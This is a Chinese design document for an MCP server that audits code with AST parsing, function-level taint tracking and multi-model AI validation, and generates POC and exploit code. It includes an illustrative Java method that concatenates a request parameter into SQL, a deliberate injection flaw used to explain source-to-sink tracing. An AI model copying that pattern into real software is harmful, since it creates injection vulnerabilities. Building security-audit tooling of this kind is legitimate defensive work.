


# 代码审计及POC/EXP生成MCP服务器 - 设计文档

## 1. 文档概述

### 1.1 文档目的
本设计文档描述了代码审计及POC/EXP生成MCP服务器的系统架构、核心组件、技术实现方案和接口设计。该文档旨在指导开发团队进行系统实现，确保满足需求文档中定义的所有功能和非功能需求。

### 1.2 项目背景
本项目旨在为安全研究人员和开发者提供自动化的代码安全审计能力，通过深度代码分析、污点追踪、多模型验证等技术，准确识别安全漏洞，并自动生成POC和EXP代码。系统基于MCP（Model Context Protocol）协议，可与AI模型无缝集成。

### 1.3 架构决策：Python + Go 混合架构

**核心设计决策**：
- **Python作为MCP Server**: 利用Python官方MCP SDK的完善支持和AI/ML生态
- **Go作为高性能后端**: 处理CPU密集型任务（AST解析、图分析、污点追踪）
- **gRPC作为通信桥梁**: 高性能的Python-Go进程间通信

**架构优势**：

| 方面 | 优势说明 |
|------|---------|
| **MCP协议支持** | Python有官方MCP SDK，开发便捷，文档完善 |
| **性能** | Go处理AST解析、图算法等CPU密集任务，性能优异 |
| **AI/ML生态** | Python直接使用txtai、transformers等AI库，无需语言转换 |
| **开发效率** | 各语言专注自己擅长的领域，降低开发复杂度 |
| **可维护性** | 清晰的职责分离，Python负责协议和AI，Go负责性能 |
| **可测试性** | 两个服务可以独立开发、测试和部署 |
| **扩展性** | 易于添加新语言支持或AI模型，不影响核心性能 |

### 1.4 设计原则
- **准确性优先**: 通过多模型交叉验证和深度分析减少误报
- **可扩展性**: 支持自定义规则、多语言、多框架扩展
- **性能优化**: 使用索引缓存和增量更新提高分析速度
- **AI友好**: 优化输出格式，减少上下文长度，提高AI协作效率
- **模块化设计**: 核心组件解耦，便于维护和测试
- **语言优势互补**: 充分发挥Python和Go各自的技术优势

---

## 2. 系统架构设计

### 2.1 总体架构（Python + Go 混合架构）

**架构设计理念**：
- **Python作为MCP Server**：利用Python完善的MCP SDK和生态
- **Go作为高性能后端**：处理计算密集型任务（AST解析、污点分析等）
- **gRPC通信**：Python主进程调用Go服务获取高性能计算能力

```
┌─────────────────────────────────────────────────────────────┐
│                        MCP Client Layer                       │
│                    (Claude Desktop, IDEs)                     │
└───────────────────────────┬─────────────────────────────────┘
                            │ MCP Protocol (JSON-RPC)
                            │ stdio / SSE
┌───────────────────────────▼─────────────────────────────────┐
│                MCP Server Layer (Python)                      │
│                  使用 mcp Python SDK                          │
│  ┌──────────────────────────────────────────────────────┐  │
│  │  MCP Tool Registry & Handler                          │  │
│  │  - search_class, search_method, search_field          │  │
│  │  - scan_vulnerabilities, generate_poc, generate_exp   │  │
│  │  - semantic_search, query_cve, trace_sink, etc.       │  │
│  └──────────────────────────────────────────────────────┘  │
│  ┌──────────────────────────────────────────────────────┐  │
│  │  AI/ML Services (Python Native)                       │  │
│  │  - Semantic Search (txtai)                            │  │
│  │  - Multi-Model Validation (Claude/GPT-4/Gemini)       │  │
│  │  - POC/EXP Generator (AI-powered)                     │  │
│  │  - Vulnerability Classifier (ML)                      │  │
│  │  - CVE Query Service                                  │  │
│  └──────────────────────────────────────────────────────┘  │
└────────────────────────┬────────────────────────────────────┘
                         │ gRPC
                         │ (Python调用Go获取高性能服务)
┌────────────────────────▼────────────────────────────────────┐
│              Go Backend Services (gRPC Server)                │
│                      高性能核心引擎                            │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │ AST Parser   │  │ Index Manager│  │ Call Chain   │      │
│  │ Service      │  │ Service      │  │ Analyzer     │      │
│  │(tree-sitter) │  │              │  │   Service    │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │ Taint        │  │ Code         │  │ Decompiler   │      │
│  │ Analysis     │  │ Extractor    │  │ Integration  │      │
│  │ Service      │  │ Service      │  │ Service      │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │ Language     │  │ Framework    │  │ Dependency   │      │
│  │ Adapters     │  │ Adapters     │  │ Analyzer     │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
└───────────────────────────┬─────────────────────────────────┘
                            │
┌───────────────────────────▼─────────────────────────────────┐
│                      Data Layer (Shared)                      │
│              Python和Go通过数据库/文件系统共享                 │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │  Code Index  │  │  Rule Store  │  │ CVE Database │      │
│  │   Database   │  │  (SQLite)    │  │  (SQLite)    │      │
│  │  (SQLite/PG) │  │              │  │              │      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
│  ┌──────────────┐  ┌──────────────┐  ┌──────────────┐      │
│  │  Audit Cache │  │ Vector Store │  │ Report Store │      │
│  │   (Redis)    │  │  (Qdrant)    │  │  (FileSystem)│      │
│  └──────────────┘  └──────────────┘  └──────────────┘      │
└─────────────────────────────────────────────────────────────┘
```

**架构优势**：
1. ✅ **最佳MCP支持**：Python有官方MCP SDK，开发便捷
2. ✅ **最佳性能**：Go处理CPU密集型任务（AST解析、图分析）
3. ✅ **最佳AI生态**：Python直接调用AI模型和ML库
4. ✅ **清晰职责分离**：Python负责协议和AI，Go负责性能
5. ✅ **独立可测试**：两个服务可以独立开发和测试

### 2.1.1 Mermaid架构图



### 2.2 架构分层说明

#### 2.2.1 MCP客户端层
- 支持Claude Desktop、IDEs等MCP客户端
- 通过JSON-RPC协议与MCP服务器通信
- 使用stdio或SSE传输
- 提供用户交互界面

#### 2.2.2 MCP服务器层（Python实现）
**使用Python官方MCP SDK，职责包括**：

**MCP协议处理**：
- 实现标准MCP协议规范（使用`mcp` Python库）
- MCP工具注册和管理
- 处理JSON-RPC请求和响应
- stdio/SSE通信管理

**AI/ML服务**（Python原生实现）：
- **语义搜索引擎**: 使用txtai进行向量检索和自然语言查询
- **多模型验证引擎**: Self-RAG机制，调用多个AI模型交叉验证
- **POC/EXP生成器**: 使用AI生成概念验证和利用代码
- **AI模型集成**: 统一接口调用Claude、GPT-4、Gemini等
- **漏洞分类器**: 基于ML的漏洞类型识别和严重程度评估
- **CVE查询服务**: 查询和分析历史漏洞数据库
- **ML规则引擎**: 基于机器学习的动态规则生成

**服务编排**：
- 协调Go后端服务调用
- gRPC客户端，调用Go服务获取高性能计算结果
- 聚合和组织响应数据
- 返回结构化JSON给MCP客户端

#### 2.2.3 Go后端服务层（gRPC Server）
**Go提供高性能gRPC服务，处理计算密集型任务**：

**核心分析引擎**：
- **AST解析服务**: 使用go-tree-sitter解析多语言代码为AST
- **索引管理服务**: 管理代码结构索引，支持高速查询和缓存
- **调用链分析服务**: 构建和分析函数调用关系图
- **污点分析服务**: 执行函数级污点追踪，追踪数据流
- **代码提取服务**: 高效提取漏洞链路上的完整代码

**适配器和工具**：
- **语言适配器**: 适配不同编程语言特性（Java、Python、JS等）
- **框架适配器**: 适配主流Web框架（Spring、Django等）
- **反编译器集成**: 调用Java/Python反编译工具
- **依赖分析器**: 分析项目依赖关系

**性能特点**：
- 并发处理：利用goroutine并行分析多个文件
- 内存优化：流式处理大型代码库
- 增量更新：智能缓存和增量分析

#### 2.2.4 数据层（共享）
**Python和Go通过数据库和文件系统共享数据**：

**结构化存储**：
- **代码索引数据库**: SQLite/PostgreSQL，存储AST和代码结构
  - Go写入（高速批量插入）
  - Python读取（查询和展示）
- **规则存储**: SQLite，存储检测规则
  - 支持自定义规则导入
- **CVE数据库**: SQLite，历史漏洞信息
  - Python维护和查询

**缓存和向量存储**：
- **审计缓存**: Redis（可选），缓存频繁访问的分析结果
- **向量存储**: Qdrant，存储代码语义向量
  - Python负责向量生成和检索

**文件系统**：
- **报告存储**: 导出的JSON/HTML/Markdown报告
- **索引缓存**: AST和调用图的序列化缓存

### 2.3 核心设计决策

#### 2.3.1 函数级污点分析 vs 变量级污点分析

**设计决策**：采用**函数级污点分析**而非传统的变量级污点分析

**为什么选择函数级？**

| 维度 | 变量级污点分析 | 函数级污点分析 | 我们的选择 |
|------|--------------|--------------|----------|
| **跨模块追踪** | ❌ 困难，容易断链 | ✅ 天然支持跨文件/模块 | 函数级 |
| **性能** | ⚠️ 状态空间巨大，内存消耗高 | ✅ 状态空间小，性能优异 | 函数级 |
| **复杂场景处理** | ❌ 反射、异步、多线程难处理 | ✅ 统一抽象，易于处理 | 函数级 |
| **精细度** | ✅ 变量级精度 | ⚠️ 函数级粒度 | 函数级+AI弥补 |
| **实现复杂度** | ⚠️ 高 | ✅ 低 | 函数级 |

**具体权衡分析**：

**1. 跨模块追踪问题**

```java
// 变量级污点分析的断链问题
// File: UserController.java
String userId = request.getParameter("id");  // 污点源
User user = userService.getUser(userId);     // 污点传递？变量级容易断链

// File: UserService.java  
public User getUser(String id) {
    return userRepository.query(id);         // 变量级分析难以追踪到这里
}

// 函数级污点分析的解决方案
// 追踪: request.getParameter -> userService.getUser -> userRepository.query
// 函数作为节点，自然支持跨文件追踪
```

**2. 性能对比**

```
变量级分析：
- 状态空间: O(n * v) where n=函数数, v=平均变量数
- 大型项目: 10k函数 * 50变量 = 500k状态
- 内存消耗: 数GB级别

函数级分析：
- 状态空间: O(n) where n=函数数  
- 大型项目: 10k函数 = 10k状态
- 内存消耗: 数百MB级别
- 性能提升: 10-50倍
```

**3. 复杂场景处理**

```java
// 反射调用 - 变量级分析难以处理
Method method = clazz.getMethod("query", String.class);
Object result = method.invoke(obj, taintedInput);  // 变量级：断链

// 函数级分析：
// 识别到 method.invoke -> 查找可能的目标方法 -> 建立调用关系
```

**4. 精细度损失的AI弥补策略**

虽然函数级分析损失了变量级精度，但我们通过以下方式弥补：

```python
# AI多模型验证
def validate_taint_path(path: TaintPath) -> ValidationResult:
    """
    函数级追踪+AI验证策略：
    1. Go函数级分析：快速找到可能的污点路径
    2. 提取完整函数代码
    3. AI模型深入分析变量级细节
    """
    # 提取路径上所有函数的代码
    chain_code = extract_chain_code(path)
    
    # 多模型验证变量级传播
    validation = multi_model_validate(
        chain_code=chain_code,
        questions=[
            "污点数据是否真的从参数传递到返回值？",
            "中间是否有安全过滤或验证？",
            "变量之间的赋值关系是否正确？"
        ]
    )
    
    return validation  # 高置信度 + 详细推理过程
```

**5. 实际案例对比**

```java
// 案例：Spring MVC Controller
@GetMapping("/user")
public User getUser(@RequestParam String id) {  // Source
    String normalized = normalize(id);          // 变量级：需要追踪id->normalized
    User user = userService.findUser(normalized); // 变量级：需要追踪normalized传递
    return user;
}

// UserService.java
public User findUser(String userId) {
    String sql = "SELECT * FROM users WHERE id = '" + userId + "'";  // Sink
    return jdbcTemplate.query(sql);  
}

// 变量级分析：
// - 需要追踪: id -> normalized -> userId -> sql
// - 跨文件时容易丢失上下文
// - 需要大量内存存储每个变量的污点状态

// 函数级分析：
// - 追踪调用链: getUser() -> normalize() -> findUser() -> query()
// - 识别: Source=@RequestParam, Sink=jdbcTemplate.query
// - 路径清晰，内存效率高
// - AI验证细节："normalized变量是否影响污点？"
```

**6. 最终决策总结**

| 决策 | 理由 |
|------|------|
| **采用函数级** | 性能优异、跨模块追踪、易于实现 |
| **AI弥补精度** | 多模型验证变量级细节，提高准确性 |
| **混合策略** | Go快速追踪 + Python AI深度验证 = 最佳平衡 |

**对应需求**：需求7（减少误报）、需求8（完整上下文追踪）、需求32（函数级污点分析）

### 2.4 Python与Go通信机制

#### 2.4.1 通信协议：gRPC

**Python作为gRPC客户端，Go作为gRPC服务端**

选择gRPC的原因：
- ✅ **高性能、低延迟**：二进制协议，适合高频调用
- ✅ **强类型接口**：Protocol Buffers确保接口安全
- ✅ **双向流支持**：支持流式返回大量数据
- ✅ **跨语言支持**：Python和Go都有成熟的gRPC支持
- ✅ **内置特性**：负载均衡、超时控制、错误处理

#### 2.4.2 序列化开销分析与优化

**潜在开销识别**：

| 操作 | 数据量 | 序列化开销 | 优化策略 |
|------|--------|----------|---------|
| AST传输 | 大 (MB级) | ⚠️ 高 | 压缩+流式传输 |
| 索引查询 | 小 (KB级) | ✅ 低 | 直接传输 |
| 代码提取 | 中 (KB-MB) | ⚠️ 中 | 按需加载 |
| 污点路径 | 小 (KB级) | ✅ 低 | 直接传输 |

**优化策略详解**：

**1. AST传输优化**

```go
// Go端：流式返回大型AST
func (s *CodeAnalysisServer) ParseProject(req *pb.ParseProjectRequest, stream pb.CodeAnalysisService_ParseProjectServer) error {
    files := collectFiles(req.ProjectPath)
    
    for _, file := range files {
        ast := parseFile(file)
        
        // 不传输完整AST，只传输索引信息
        response := &pb.ParseProgressUpdate{
            CurrentFile: file,
            // 不包含完整AST，节省传输
        }
        
        // AST直接写入数据库，不通过gRPC传输
        saveToDatabase(ast)
        
        stream.Send(response)
    }
}
```

**2. 数据压缩**

```go
// 启用gRPC压缩
grpcServer := grpc.NewServer(
    grpc.MaxRecvMsgSize(100 * 1024 * 1024),
    grpc.MaxSendMsgSize(100 * 1024 * 1024),
    grpc.UseCompressor(gzip.Name),  // 启用gzip压缩
)
```

```python
# Python端配置
channel = grpc.insecure_channel(
    'localhost:50051',
    options=[
        ('grpc.default_compression_algorithm', grpc.Compression.Gzip),
        ('grpc.default_compression_level', grpc.Compression.High),
    ]
)
```

**3. 批量传输优化**

```protobuf
// 批量查询而非单个查询
message BatchSearchMethodRequest {
  repeated string method_names = 1;  // 批量
  string project_id = 2;
}

message BatchSearchMethodResponse {
  map<string, MethodInfo> methods = 1;  // 批量返回
}
```

**4. 缓存策略**

```python
# Python端缓存频繁访问的数据
class CachedGoClient:
    def __init__(self):
        self.method_cache = {}  # 本地缓存
        
    def search_method(self, method_name, project_id):
        cache_key = f"{project_id}:{method_name}"
        
        if cache_key in self.method_cache:
            return self.method_cache[cache_key]
        
        # gRPC调用
        result = self.grpc_client.SearchMethod(method_name, project_id)
        self.method_cache[cache_key] = result
        return result
```

**5. 共享内存优化（高级）**

```go
// 对于超大数据，使用共享内存而非gRPC传输
func (s *CodeAnalysisServer) GetLargeAST(req *pb.GetASTRequest) (*pb.GetASTResponse, error) {
    // 将AST写入共享内存
    shmPath := writeToSharedMemory(ast)
    
    return &pb.GetASTResponse{
        SharedMemoryPath: shmPath,  // 只传路径
        Size: ast.Size(),
    }, nil
}
```

**序列化性能基准**：

```
测试场景：10,000个方法的项目

方法1：传输完整AST
- 数据量: 50MB
- 序列化时间: ~500ms
- 传输时间: ~200ms
- 总计: ~700ms

方法2：只传索引信息+数据库共享
- 数据量: 2MB
- 序列化时间: ~50ms  
- 传输时间: ~20ms
- 总计: ~70ms (10倍提升)

方法3：启用压缩+批量
- 数据量: 0.5MB (压缩后)
- 序列化时间: ~50ms
- 传输时间: ~5ms
- 总计: ~55ms (12倍提升)
```

**最佳实践总结**：

1. **大数据不走gRPC**：AST直接写数据库，两端共享
2. **启用压缩**：gzip压缩减少70%传输量
3. **批量操作**：减少RPC调用次数
4. **智能缓存**：Python端缓存热数据
5. **流式传输**：大数据分块streaming

**对应需求**：需求1（扫描性能）、性能优化策略

#### 2.3.2 Go服务接口定义

Go后端提供以下gRPC服务：

```protobuf
// code_analysis.proto
syntax = "proto3";

package codeaudit;

// Go后端核心服务接口
service CodeAnalysisService {
  // AST解析服务
  rpc ParseAST(ParseASTRequest) returns (ParseASTResponse);
  rpc ParseFile(ParseFileRequest) returns (ParseFileResponse);
  rpc ParseProject(ParseProjectRequest) returns (stream ParseProgressUpdate);
  
  // 索引管理服务
  rpc BuildIndex(BuildIndexRequest) returns (BuildIndexResponse);
  rpc UpdateIndex(UpdateIndexRequest) returns (UpdateIndexResponse);
  rpc SearchClass(SearchClassRequest) returns (SearchClassResponse);
  rpc SearchMethod(SearchMethodRequest) returns (SearchMethodResponse);
  rpc SearchField(SearchFieldRequest) returns (SearchFieldResponse);
  rpc QueryInheritance(InheritanceRequest) returns (InheritanceResponse);
  
  // 调用链分析服务
  rpc BuildCallGraph(BuildCallGraphRequest) returns (BuildCallGraphResponse);
  rpc GetCallers(GetCallersRequest) returns (GetCallersResponse);
  rpc GetCallees(GetCalleesRequest) returns (GetCalleesResponse);
  rpc GetCallChain(GetCallChainRequest) returns (GetCallChainResponse);
  
  // 污点分析服务
  rpc TaintAnalysis(TaintAnalysisRequest) returns (TaintAnalysisResponse);
  rpc TraceSink(TraceSinkRequest) returns (TraceSinkResponse);
  rpc FindTaintPaths(TaintPathRequest) returns (TaintPathResponse);
  
  // 代码提取服务
  rpc ExtractCode(ExtractCodeRequest) returns (ExtractCodeResponse);
  rpc ExtractChainCode(ExtractChainCodeRequest) returns (ExtractChainCodeResponse);
  
  // 依赖分析服务
  rpc AnalyzeDependencies(DependencyRequest) returns (DependencyResponse);
}

// ========== 核心数据类型 ==========

message CodeLocation {
  string file_path = 1;
  int32 start_line = 2;
  int32 end_line = 3;
  int32 start_column = 4;
  int32 end_column = 5;
}

// ========== AST解析相关 ==========

message ParseASTRequest {
  string code = 1;
  string language = 2; // "java", "python", "javascript", etc.
}

message ParseASTResponse {
  string ast_json = 1; // AST序列化为JSON
  bool success = 2;
  string error = 3;
}

message ParseProjectRequest {
  string project_path = 1;
  repeated string languages = 2;
  repeated string exclude_patterns = 3;
}

message ParseProgressUpdate {
  int32 total_files = 1;
  int32 processed_files = 2;
  string current_file = 3;
  float progress = 4;
}

// ========== 索引查询相关 ==========

message SearchClassRequest {
  string class_name = 1;
  string project_id = 2;
  bool include_inherited = 3;
  bool include_code = 4;
}

message SearchClassResponse {
  repeated ClassInfo classes = 1;
}

message ClassInfo {
  string class_name = 1;
  string full_name = 2;
  string file_path = 3;
  int32 start_line = 4;
  int32 end_line = 5;
  string package = 6;
  repeated string modifiers = 7;
  string parent_class = 8;
  repeated string interfaces = 9;
  repeated string methods = 10;
  repeated string fields = 11;
  repeated string annotations = 12;
  string code = 13; // 可选
}

message SearchMethodRequest {
  string method_name = 1;
  string class_name = 2; // 可选，限定在特定类中
  string project_id = 3;
  bool include_code = 4;
}

message SearchMethodResponse {
  repeated MethodInfo methods = 1;
}

message MethodInfo {
  string method_id = 1;
  string method_name = 2;
  string class_name = 3;
  string file_path = 4;
  int32 start_line = 5;
  int32 end_line = 6;
  repeated string modifiers = 7;
  string return_type = 8;
  repeated ParameterInfo parameters = 9;
  string signature = 10;
  string code = 11; // 可选
  repeated string called_by = 12;
  repeated string calls = 13;
}

message ParameterInfo {
  string name = 1;
  string type = 2;
  repeated string annotations = 3;
}

// ========== 调用链分析相关 ==========

message GetCallChainRequest {
  string from_method = 1;
  string to_method = 2;
  int32 max_depth = 3;
  string project_id = 4;
}

message GetCallChainResponse {
  repeated CallChain chains = 1;
}

message CallChain {
  string chain_id = 1;
  int32 depth = 2;
  repeated CallNode nodes = 3;
}

message CallNode {
  string method_id = 1;
  string method_name = 2;
  string class_name = 3;
  string file_path = 4;
  int32 line = 5;
  string call_type = 6;
}

// ========== 污点分析相关 ==========

message TaintAnalysisRequest {
  string project_id = 1;
  repeated string source_patterns = 2;
  repeated string sink_patterns = 3;
  int32 max_depth = 4;
}

message TaintAnalysisResponse {
  repeated TaintPath paths = 1;
  int32 total_paths = 2;
}

message TaintPath {
  string path_id = 1;
  TaintSource source = 2;
  TaintSink sink = 3;
  repeated PropagationStep steps = 4;
  float confidence = 5;
  bool is_sanitized = 6;
}

message TaintSource {
  string type = 1;
  CodeLocation location = 2;
  string description = 3;
}

message TaintSink {
  string type = 1;
  CodeLocation location = 2;
  string function = 3;
  string description = 4;
}

message PropagationStep {
  string type = 1;
  CodeLocation location = 2;
  string function = 3;
  string description = 4;
}

// ========== 代码提取相关 ==========

message ExtractChainCodeRequest {
  string project_id = 1;
  repeated string method_ids = 2;
  bool include_context = 3;
  bool remove_comments = 4;
}

message ExtractChainCodeResponse {
  repeated CodeSnippet snippets = 1;
  string summary = 2;
}

message CodeSnippet {
  string file_path = 1;
  int32 start_line = 2;
  int32 end_line = 3;
  string code = 4;
  string role = 5; // "source", "propagator", "sink"
  repeated int32 highlight_lines = 6;
}

// 更多消息类型...
```

#### 2.3.3 通信流程

**场景1：漏洞扫描完整流程**
```
1. MCP Client -> Python MCP Server: scan_vulnerabilities
2. Python -> Go (gRPC): ParseProject (解析项目AST)
3. Go: 并行解析多个文件，流式返回进度 -> Python
4. Python -> Go (gRPC): BuildIndex (构建索引)
5. Go: 构建类/方法/字段索引 -> Python
6. Python -> Go (gRPC): TaintAnalysis (污点分析)
7. Go: 执行函数级污点追踪 -> Python (返回污点路径)
8. Python: 使用多模型AI验证漏洞 (本地处理)
9. Python: 对验证通过的漏洞生成POC (本地处理)
10. Python: 汇总结果 -> MCP Client
```

**场景2：类搜索流程**
```
1. MCP Client -> Python MCP Server: search_class
2. Python -> Go (gRPC): SearchClass
3. Go: 从索引数据库查询类信息 -> Python
4. Python: 格式化响应 -> MCP Client
```

**场景3：语义搜索流程**
```
1. MCP Client -> Python MCP Server: semantic_search
2. Python: txtai向量检索 (本地处理)
3. Python -> Go (gRPC): ExtractCode (提取代码详情)
4. Go: 获取完整代码和位置信息 -> Python
5. Python: 组织响应 -> MCP Client
```

**场景4：调用链追踪流程**
```
1. MCP Client -> Python MCP Server: analyze_call_chain
2. Python -> Go (gRPC): GetCallChain
3. Go: 基于调用图进行路径搜索 -> Python
4. Python -> Go (gRPC): ExtractChainCode (提取链路代码)
5. Go: 提取每个节点的代码 -> Python
6. Python: 添加AI分析和注释 (本地处理) -> MCP Client
```

#### 2.3.4 进程管理

**Python主进程负责启动和管理Go服务**：

```python
# python/codeaudit/go_service_manager.py
import subprocess
import grpc
import time
from . import code_analysis_pb2_grpc

class GoServiceManager:
    def __init__(self, go_binary_path="./bin/code-audit-go", port=50051):
        self.go_binary_path = go_binary_path
        self.port = port
        self.process = None
        self.channel = None
        self.stub = None
        self.ready = False
    
    def start(self):
        """启动Go gRPC服务"""
        # 启动Go进程
        self.process = subprocess.Popen(
            [self.go_binary_path, "serve", f"--port={self.port}"],
            stdout=subprocess.PIPE,
            stderr=subprocess.PIPE
        )
        
        # 等待服务就绪（带健康检查）
        max_retries = 30
        for i in range(max_retries):
            try:
                time.sleep(0.5)
                channel = grpc.insecure_channel(f'localhost:{self.port}')
                grpc.channel_ready_future(channel).result(timeout=1)
                self.channel = channel
                self.stub = code_analysis_pb2_grpc.CodeAnalysisServiceStub(channel)
                self.ready = True
                print(f"Go service started on port {self.port}")
                return
            except:
                if i == max_retries - 1:
                    raise Exception("Failed to start Go service")
                continue
    
    def stop(self):
        """停止Go服务"""
        if self.channel:
            self.channel.close()
        if self.process:
            self.process.terminate()
            self.process.wait(timeout=5)
            if self.process.poll() is None:
                self.process.kill()
    
    def get_stub(self):
        """获取gRPC客户端stub"""
        if not self.ready:
            raise Exception("Go service is not ready")
        return self.stub

# MCP Server启动时初始化
go_service = GoServiceManager()
go_service.start()
```

**Go服务端主函数**：

```go
// main.go
package main

import (
    "fmt"
    "log"
    "net"
    
    "google.golang.org/grpc"
    pb "codeaudit/proto"
    "codeaudit/services"
)

func main() {
    port := 50051
    lis, err := net.Listen("tcp", fmt.Sprintf(":%d", port))
    if err != nil {
        log.Fatalf("Failed to listen: %v", err)
    }
    
    grpcServer := grpc.NewServer(
        grpc.MaxRecvMsgSize(100 * 1024 * 1024), // 100MB
        grpc.MaxSendMsgSize(100 * 1024 * 1024),
    )
    
    // 注册服务
    pb.RegisterCodeAnalysisServiceServer(grpcServer, services.NewCodeAnalysisServer())
    
    log.Printf("Go gRPC server listening on port %d", port)
    if err := grpcServer.Serve(lis); err != nil {
        log.Fatalf("Failed to serve: %v", err)
    }
}
```

#### 2.3.5 错误处理和重试

**Python端（gRPC客户端）**：
- ✅ **自动重连**：检测连接断开并自动重连
- ✅ **超时控制**：设置合理的超时时间（解析30s，分析60s等）
- ✅ **重试机制**：指数退避重试（最多3次）
- ✅ **优雅降级**：Go服务不可用时，提供有限功能或错误提示

```python
# python/codeaudit/grpc_client.py
import grpc
from grpc import RpcError
import time

class GoClient:
    def __init__(self, service_manager):
        self.service_manager = service_manager
        self.max_retries = 3
    
    def call_with_retry(self, func, *args, **kwargs):
        """带重试的gRPC调用"""
        for attempt in range(self.max_retries):
            try:
                stub = self.service_manager.get_stub()
                return func(stub, *args, **kwargs)
            except RpcError as e:
                if attempt == self.max_retries - 1:
                    raise Exception(f"Go service call failed: {e}")
                wait_time = 2 ** attempt  # 指数退避
                time.sleep(wait_time)
                # 尝试重连
                self.service_manager.stop()
                self.service_manager.start()
    
    def search_class(self, class_name, project_id):
        """搜索类"""
        def _call(stub, class_name, project_id):
            request = code_analysis_pb2.SearchClassRequest(
                class_name=class_name,
                project_id=project_id,
                include_code=True
            )
            return stub.SearchClass(request, timeout=10)
        
        return self.call_with_retry(_call, class_name, project_id)
```

**Go端（gRPC服务端）**：
- ✅ **Panic恢复**：捕获panic并返回错误
- ✅ **资源限制**：限制并发请求数量
- ✅ **超时控制**：使用context超时
- ✅ **日志记录**：记录所有错误和异常

### 2.4 Python MCP Server实现

#### 2.4.1 使用Python MCP SDK

**基础框架**：

```python
# python/codeaudit/server.py
from mcp.server import Server
from mcp.types import Tool, TextContent
import asyncio

from .go_service_manager import GoServiceManager
from .ai_services import SemanticSearchService, ValidationService, POCGenerator

class CodeAuditMCPServer:
    def __init__(self):
        self.server = Server("code-audit-mcp")
        self.go_service = GoServiceManager()
        self.semantic_search = SemanticSearchService()
        self.validator = ValidationService()
        self.poc_gen = POCGenerator()
        
        # 注册所有MCP工具
        self._register_tools()
    
    def _register_tools(self):
        """注册MCP工具"""
        
        @self.server.call_tool()
        async def search_class(arguments: dict):
            """搜索类定义"""
            class_name = arguments.get("className")
            include_code = arguments.get("includeCode", False)
            
            # 调用Go服务
            stub = self.go_service.get_stub()
            response = stub.SearchClass(
                class_name=class_name,
                include_code=include_code
            )
            
            # 转换为MCP响应格式
            return [TextContent(
                type="text",
                text=self._format_class_response(response)
            )]
        
        @self.server.call_tool()
        async def scan_vulnerabilities(arguments: dict):
            """扫描代码漏洞"""
            target_path = arguments.get("targetPath")
            rule_sets = arguments.get("ruleSets", ["OWASP_TOP10"])
            
            # 1. 解析项目 (Go)
            stub = self.go_service.get_stub()
            parse_response = stub.ParseProject(target_path=target_path)
            
            # 2. 构建索引 (Go)
            index_response = stub.BuildIndex(project_id=parse_response.project_id)
            
            # 3. 污点分析 (Go)
            taint_response = stub.TaintAnalysis(
                project_id=parse_response.project_id
            )
            
            # 4. AI验证 (Python本地)
            validated_vulns = await self.validator.validate_vulnerabilities(
                taint_response.paths
            )
            
            # 5. 生成POC (Python本地)
            for vuln in validated_vulns:
                if vuln.confidence > 0.8:
                    vuln.poc = await self.poc_gen.generate(vuln)
            
            return [TextContent(
                type="text",
                text=self._format_vuln_report(validated_vulns)
            )]
        
        @self.server.call_tool()
        async def semantic_search(arguments: dict):
            """语义代码搜索"""
            query = arguments.get("query")
            top_k = arguments.get("topK", 10)
            
            # Python本地处理
            results = await self.semantic_search.search(query, top_k)
            
            # 调用Go获取完整代码
            stub = self.go_service.get_stub()
            for result in results:
                code_response = stub.ExtractCode(
                    file_path=result.file_path,
                    start_line=result.start_line,
                    end_line=result.end_line
                )
                result.code = code_response.code
            
            return [TextContent(
                type="text",
                text=self._format_search_results(results)
            )]
        
        # 注册更多工具...
    
    async def run(self):
        """启动MCP服务器"""
        # 先启动Go服务
        self.go_service.start()
        
        # 运行MCP服务器
        async with self.server.run_stdio():
            await asyncio.Event().wait()

async def main():
    server = CodeAuditMCPServer()
    await server.run()

if __name__ == "__main__":
    asyncio.run(main())
```

#### 2.4.2 MCP工具完整列表

| MCP工具名称 | Python处理 | Go处理 | AI处理 |
|------------|----------|--------|-------|
| `search_class` | 协调 | ✅ 索引查询 | - |
| `search_method` | 协调 | ✅ 索引查询 | - |
| `search_field` | 协调 | ✅ 索引查询 | - |
| `query_inheritance` | 协调 | ✅ 继承关系分析 | - |
| `analyze_call_chain` | 协调 + 注释 | ✅ 图分析 | ✅ 代码理解 |
| `trace_sink` | 协调 | ✅ 污点追踪 | - |
